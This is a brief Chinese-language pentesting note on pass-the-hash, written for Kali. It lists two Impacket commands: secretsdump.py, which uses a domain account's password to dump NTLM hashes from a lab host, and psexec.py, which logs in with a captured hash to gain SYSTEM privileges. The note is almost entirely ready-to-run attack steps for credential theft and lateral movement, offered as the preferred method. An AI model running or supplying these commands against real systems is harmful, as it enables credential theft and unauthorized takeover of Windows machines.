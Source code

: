 # pth（常用）

我认为这种方式是最好用的（在kali上）

```clike
1. hash枚举（vista之后基本无效）
secretsdump.py just-dc-ntlm offensive.local/dbadmin:"Passw8rd "@192.168.159.200

2. 用psexec带着hash登陆，直接获取system权限
psexec.py admtnistrator@192.168.159.200 -hashes "hash:hash"
```
